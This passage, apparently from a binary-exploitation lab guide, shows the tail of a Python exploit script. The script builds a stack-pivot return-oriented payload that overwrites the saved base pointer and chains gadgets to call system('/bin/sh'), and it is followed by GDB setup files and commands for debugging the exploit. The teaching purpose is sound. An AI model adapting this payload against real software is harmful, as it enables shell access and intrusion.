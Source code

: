 ```python
    0x0,            # next RBP (dummy)
    pop_rdi,
    binsh,
    call_sys,
]

# In a single input: small padding + new RBP (heap addr) + RET=leave;ret + then the heap chain bytes
heap_addr = 0x404800  # choose a writable addr visible in maps or from malloc() leak during debugging
payload  = b"A"*16
payload += struct.pack('<Q', heap_addr)     # saved RBP -> heap
payload += struct.pack('<Q', leave_ret)     # RET -> leave;ret
payload += b"B"*16                          # (optional spacing)
payload += b"".join(struct.pack('<Q', x) for x in pivot_chain)

sys.stdout.buffer.write(payload)
```

Run while watching in `gdb` and adjust `OFFSET` and `heap_addr` for your run; or split interaction into two writes if you prefer a cleaner pivot (leak heap ptr first via `printf` bug—left as a challenge).

---

## GDB mini‑guides

**`.gdbinit-stage1`**

```
set disassembly-flavor intel
handle SIGALRM SIGPIPE nostop noprint
b *main
run
info functions gadget
p/x gadget_pop_rdi_ret
p/x call_system
p/x BINSH
```

**Useful commands**

```
pattern create 200               # if using pwndbg
run < <(python3 exploit_stage1.py)
x/20gx $rsp                      # inspect chain on stack
bt                               # backtrace
si / ni                          # step/next
```

---

## System settings used in the lab
